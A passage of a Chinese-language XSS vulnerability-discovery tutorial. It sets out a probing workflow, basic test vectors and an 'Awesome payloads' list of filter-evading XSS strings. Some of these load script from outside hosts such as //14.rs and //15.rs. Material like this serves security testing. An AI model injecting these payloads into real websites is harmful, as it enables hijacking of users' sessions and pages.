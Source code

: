 

### 漏洞挖掘

#### 基本思路

漏洞挖掘的方法大致可以分成两类：

* 人工挖掘
* 利用工具自动化挖掘

利用工具自动化挖掘本质就是将人工挖掘的流程自动化，流程还是差不多的。

一般流程：

1. 寻找数据入口
2. 潜在注入点检测
3. 生成payload
4. payload攻击验证



寻找数据入口就是寻找WEB页面上的输入和输出口。例如网站输入框、URL参数，评论、留言版、或者Header头部里的UA/Referer/Cookie等。潜在注入点检测就是判断输入点是否可以成功将数据注入到页面。生成payload就是不断测试去调整payload，用payload进行不断的fuzz。当payload成功注入时，就意味着XSS注入成功了。



#### 常用的探测向量

```javascript
<script>alert(1)</script>
<script>confirm(1)</script>
<img src=x onerror=prompt(1);>
<svg/onload=prompt(1);>
<audio src=x onerror=prompt(1);>
```

#### Awesome payloads

```javascript
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```
